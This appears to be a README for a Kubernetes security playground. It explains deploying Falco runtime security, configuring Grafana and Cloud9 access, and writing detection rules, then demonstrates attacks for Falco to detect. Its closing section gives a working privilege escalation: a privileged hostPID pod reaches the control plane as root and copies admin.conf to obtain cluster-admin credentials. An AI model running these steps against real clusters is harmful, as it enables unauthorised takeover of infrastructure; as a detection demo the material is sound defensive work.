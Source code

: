 # Add-On: Falco

## Deploy

The deployment of Falco runtime security is very straigt forward with the playground. Simply execute the script `deploy-falco.sh`, everything else is prepared.

```sh
deploy-falco.sh
```

To ignore events triggerd by services belonging to the playground environment, you can easily whitelist all the playground components by running the following script.

```sh
whitelist_playground_ns.sh
```

Rerun the script whenever you're deploying additional playground components.

Falco is integrated with Prometheus and Grafana as well. A Dashboard is available for import with the ID 11914.

![alt text](https://raw.githubusercontent.com/mawinkler/c1-playground/master/images/falco-grafana.png "Grafana Dashboard")

## Access

Follow the steps for your platform below. A file called `services` is either created or updated with the link and the credentials to connect to falco.

***Linux***

By default, the Falco UI is on port 8082.

Example:

`Falco UI on: http://192.168.1.121:8082/ui/#/`

***Cloud9***

If working on a Cloud9 environment you need to adapt the security group of the corresponding EC2 instance to enable access from your browwer. To share Falco over the internet, follow the steps below.

1. Query the public IP of your Cloud9 instance with

   ```sh
   curl http://169.254.169.254/latest/meta-data/public-ipv4
   ```

2. In the IDE for the environment, on the menu bar, choose your user icon, and then choose Manage EC2 Instance
3. Select the security group associated to the instance and select Edit inbound rules.
4. Add an inbound rule for the `proxy_listen_port` configured in you config.yaml (default: 8082) and choose Source Anywhere
5. Depending on the currently configured Network ACL you might need to add a rule to allow ingoing traffic on the same port. To do this go to the VPC within the Cloud9 instance is running and proceed to the associated Main network ACL.
6. Ensure that an inbound rule is set which allows traffic on the `proxy_listen_port`. If not, click on `Edit inbound rules` and add a rule with a low Rule number, Custom TCP, Port range 8443 (or your configured port), Source 0.0.0.0/0 and Allow.

Access to the services should then be possible with the public ip of your Cloud9 instance with your configured port(s).

Examle

`Falco UI: <http://YOUR-CLOUD9-PUBLIC-IP:8082/ui/#/>`

## Try it

To test the k8s auditing try to create a configmap:

```sh
cat <<EOF | kubectl apply -f -
apiVersion: v1
data:
  ui.properties: |
    color.good=purple
    color.bad=yellow
    allow.textmode=true
  access.properties: |
    aws_access_key_id = AKIAXXXXXXXXXXXXXXXX
    aws_secret_access_key = 1CHPXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
kind: ConfigMap
metadata:
  name: awscfg
EOF
```

If you want to test out own falco rules, create a file called `falco/additional_rules.yaml` write your rules. It will be included when running `deploy-falco.sh`.

Example:

```yaml
- macro: container
  condition: container.id != host

- macro: spawned_process
  condition: evt.type = execve and evt.dir=<

- rule: (AR) Run shell in container
  desc: a shell was spawned by a non-shell program in a container. Container entrypoints are excluded.
  condition: container and proc.name = bash and spawned_process and proc.pname exists and not proc.pname in (bash, docker)
  output: "Shell spawned in a container other than entrypoint (user=%user.name container_id=%container.id container_name=%container.name shell=%proc.name parent=%proc.pname cmdline=%proc.cmdline)"
  priority: WARNING
```

### Generate some events

```sh
docker run -it --rm falcosecurity/event-generator run syscall --loop
```

### Fun with privileged mode

```sh
function shell () {
  kubectl run shell --restart=Never -it --image mawinkler/kod:latest \
  --rm --attach \
  --overrides \
    '
    {
      "spec":{
        "hostPID": true,
        "containers":[{
          "name":"kod",
          "image": "mawinkler/kod:latest",
          "imagePullPolicy": "Always",
          "stdin": true,
          "tty": true,
          "command":["/bin/bash"],
          "nodeSelector":{
            "dedicated":"master"
          },
          "securityContext":{
            "privileged":true
          }
        }]
      }
    }
    '
}
```

You can paste this into a new file `shell.sh` and source the file.

```sh
. ./shell.sh
```

Then you can type the following to demonstrate a privilege escalation in Kubernetes.

```sh
shell
```

If you don't see a command prompt, try pressing enter.

```sh
root@shell:/# godmode
root@playground-control-plane:/# 
```

You're now on the control plane of the cluster and should be kubernetes-admin.

If you're wondering what you can do now...

```sh
mkdir -p /root/.kube
cp /etc/kubernetes/admin.conf /root/.kube/config
kubectl auth can-i create deployments -n kube-system
```

```sh
kubectl create deployment echo --image=inanimate/echo-server
kubectl get pods
```

